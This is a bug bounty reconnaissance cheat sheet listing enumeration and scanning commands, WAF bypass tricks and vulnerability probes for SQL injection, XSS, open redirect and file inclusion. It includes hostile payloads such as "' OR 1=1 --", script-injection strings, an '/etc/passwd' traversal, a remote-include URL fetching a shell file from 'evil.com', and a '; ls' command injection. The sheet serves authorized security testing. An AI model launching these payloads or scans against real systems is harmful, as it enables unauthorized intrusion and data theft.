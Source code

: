 # Bug Bounty Recon Cheat Sheet

## **Recon Basics**
### Tools for Recon:
1. **Subdomain Enumeration:**
   - Tools: `Sublist3r`, `Amass`, `assetfinder`, `crt.sh`.
   - Commands:
     ```bash
     sublist3r -d example.com
     amass enum -passive -d example.com
     assetfinder --subs-only example.com
     curl -s 'https://crt.sh/?q=%.example.com&output=json' | jq '.'
     ```

2. **DNS Discovery:**
   - Tools: `dnsrecon`, `dnsenum`, `dig`.
   - Commands:
     ```bash
     dnsrecon -d example.com
     dnsenum example.com
     dig example.com any
     ```

3. **Find Open Ports:**
   - Tools: `nmap`, `masscan`.
   - Commands:
     ```bash
     nmap -sV -sC -oN nmap_scan.txt example.com
     masscan -p1-65535 --rate 1000 -oL masscan_output.txt example.com
     ```

4. **Gather Web Files:**
   - Tools: `gau`, `waybackurls`, `hakrawler`.
   - Commands:
     ```bash
     gau example.com > urls.txt
     waybackurls example.com | tee wayback.txt
     hakrawler -url https://example.com -plain
     ```

5. **JavaScript Files:**
   - Extract and analyze JavaScript files for sensitive information:
     ```bash
     grep -Eo '(https?:\/\/[^"\'> ]+\.js)' urls.txt | tee js_files.txt
     ```
   - Analyze with `linkfinder`:
     ```bash
     python3 linkfinder.py -i example.js -o cli
     ```

---

## **Bypass WAF Techniques**
1. **Headers Manipulation:**
   - Add random headers to bypass basic filters:
     ```
     X-Original-URL: /admin
     X-Forwarded-For: 127.0.0.1
     ```

2. **Encoding Payloads:**
   - URL Encoding: Replace characters with `%XX` values.
   - Double Encoding: Encode twice to bypass simple filters.
     ```
     %2527 instead of '
     ```

3. **Case Alterations:**
   - Mix lowercase and uppercase letters:
     ```
     SeLeCt * fRoM users
     ```

4. **Append Null Bytes:**
   - Add `%00` or `/../` to break patterns.
     ```
     /path/%00
     ```

---

## **Vulnerability-Specific Recon**

### 1. **SQL Injection**
- **Recon Steps:**
  - Identify parameters in GET/POST requests.
  - Check for errors with payloads like `\'`, `"`, or `;`.
  - Tools: `sqlmap`.
    ```bash
    sqlmap -u "https://example.com/page?id=1" --batch
    ```

### 2. **Cross-Site Scripting (XSS)**
- **Recon Steps:**
  - Find user input fields.
  - Check for HTML injection by submitting:
    ```
    <script>alert(1)</script>
    ```
  - Tools: `XSStrike`, `dalfox`.
    ```bash
    xsstrike -u "https://example.com"
    dalfox url "https://example.com" --crawl
    ```

### 3. **Open Redirect**
- **Recon Steps:**
  - Look for `url=`, `redirect=`, `next=` parameters.
  - Test with external URLs like:
    ```
    https://example.com?url=https://evil.com
    ```

### 4. **File Inclusion (LFI/RFI)**
- **Recon Steps:**
  - Look for file parameters (e.g., `file=`, `page=`).
  - Test payloads:
    ```
    ../../../../etc/passwd
    http://evil.com/shell.txt
    ```
  - Tools: `fimap`, `LFISuite`.

---

## **Practical Recon Workflow**
1. **Discover Subdomains:**
   - Use `Amass` and `crt.sh` to build a list.
2. **Identify Active Hosts:**
   - Use `httprobe` to filter out live domains.
     ```bash
     cat subdomains.txt | httprobe > live_hosts.txt
     ```
3. **Extract Parameters:**
   - Combine `gau` and `waybackurls` for historical data.
4. **Analyze Endpoints:**
   - Check for XSS, LFI, and SQLi in captured URLs.
5. **Test Authentication and Session Handling:**
   - Use tools like `Burp Suite` to manipulate cookies and tokens.
6. **Fingerprint Technologies:**
   - Use `whatweb` or `wappalyzer` to identify the tech stack.

---

## **Useful Payloads**
- **XSS:** `<svg/onload=alert(1)>`
- **SQLi:** `' OR 1=1 --`
- **LFI:** `../../../../etc/passwd`
- **Command Injection:** `; ls`

---

## **Notes**
1. Always respect the rules of the bounty program.
2. Report findings responsibly and provide detailed reproduction steps.
3. Keep your tools updated to ensure compatibility and effectiveness.

